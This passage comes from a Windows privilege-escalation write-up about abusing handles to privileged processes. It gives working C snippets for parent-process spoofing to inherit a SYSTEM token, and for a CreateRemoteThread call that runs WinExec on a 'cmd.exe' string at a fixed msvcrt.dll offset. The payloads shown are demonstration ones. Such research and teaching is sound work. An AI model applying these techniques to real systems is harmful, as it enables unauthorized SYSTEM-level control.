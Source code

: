 ### PROCESS_CREATE_PROCESS

This right is "required to create a process", which is to say that we can spawn
child processes. To do this remotely, we just need to spawn a process and set
its parent to the privileged process we've got a handle to. This will create
the new process and inherit its parent token which will hopefully be a SYSTEM
token.

Here's how we do that:
```
    STARTUPINFOEXA sinfo = { sizeof(sinfo) };
    PROCESS_INFORMATION pinfo;
    LPPROC_THREAD_ATTRIBUTE_LIST ptList = NULL;
    SIZE_T bytes;
    
    sinfo.StartupInfo.cb = sizeof(STARTUPINFOEXA);
    InitializeProcThreadAttributeList(NULL, 1, 0, &bytes);
    ptList = (LPPROC_THREAD_ATTRIBUTE_LIST)malloc(bytes);
    InitializeProcThreadAttributeList(ptList, 1, 0, &bytes);

    UpdateProcThreadAttribute(ptList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hPrivProc, sizeof(HANDLE), NULL, NULL);
    sinfo.lpAttributeList = ptList;

    CreateProcessA("cmd.exe", (LPSTR)"cmd.exe /c calc.exe", 
            NULL, NULL, TRUE, 
            EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, 
            &sinfo.StartupInfo, &pinfo);
```

We should now have calc running with the privileged token. Obviously we'd want
to replace that with something more useful!

### PROCESS_CREATE_THREAD

Here we've got the ability to use `CreateRemoteThread`, but can't control any 
memory in the target process. There are of course ways we can influence memory
without direct write access, such as WNF, but we'd still have no way of 
resolving those addresses. As it turns out, however, we don't need the control.
`CreateRemoteThread` can be pointed at a function with a single argument, which
gives us quite a bit of control. `LoadLibraryA` and `WinExec` are both great
candidates for executing child processes or loading arbitrary code. 

As example, there's an ANSI `cmd.exe` located in msvcrt.dll at offset 0x503b8.
We can pass this as an argument to `CreateRemoteThread` and trigger a `WinExec`
call to pop a shell:

```
DWORD dwCmd = (GetModuleBaseAddress(GetCurrentProcessId(), L"msvcrt.dll") + 0x503b8);
HANDLE hThread = CreateRemoteThread(hPrivProc, NULL, 0,
                        (LPTHREAD_START_ROUTINE)WinExec, 
                        (LPVOID)dwCmd, 
                        0, NULL);
```
